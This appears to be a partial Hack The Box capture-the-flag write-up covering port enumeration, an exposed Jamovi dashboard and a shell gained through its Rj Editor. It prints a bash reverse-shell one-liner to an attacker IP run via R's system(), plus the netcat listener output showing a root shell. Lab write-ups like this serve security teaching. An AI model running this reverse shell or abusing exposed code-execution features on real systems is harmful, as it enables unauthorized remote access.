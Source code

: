 ```bash
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
8082/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
```

# Enumerating Web

Visiting port 80, we get a website. One thing you can notice are the names of the Cheifs in the footer. Let's consider them as possible usernames.

```
Janit Smith (Chief Financial Officer)
Saul Goodman (Chief Executing Officer)
Matt Williams (Chief Marketing Officer & Head of Design)
```

Port 3000 has RocketChat login form at `http://10.10.11.155:3000/home`. But port 8080 sparked my interest more because it has a dahsboard open at : 
`http://10.10.11.155:8080/?id=e82c72bb-8c93-4688-8ed3-7fde506c1eda`

Jamovi is a free and open statistical software. After doing some research I found that maybe we can execute code inside the  Rj Editor using R promramming language. 

From the jamovi docs: RJ Editor is a new module for the jamovi statistical spreadsheet that allows you to use the R programming language to analyse data from within jamovi. 


# SHELL using JAMOVI

One thing you love about HTB is it always push you to try new things. In this case, it's R programming language.

Some analyses in jamovi can be created using R code with the Rj Editor. This allows for great flexibility in what analyses can be run, however due to the flexibility of R code, it’s possible for someone to write an analysis which does malicious things, such as deleting files. This is a similar situation to other software which allows arbitrary code, such as macros in Microsoft Word or Excel.
[See more](https://www.jamovi.org/about-arbitrary-code.html)

Reading the docs [here]() We can execute commands through  `system(command, inten=TRUE)`

I got a shell using: 

`system("bash -c 'bash -i >& /dev/tcp/10.10.14.68/1337 0>&1'")`


```bash
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.68] from (UNKNOWN) [10.10.11.155] 47030
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/# ls
```
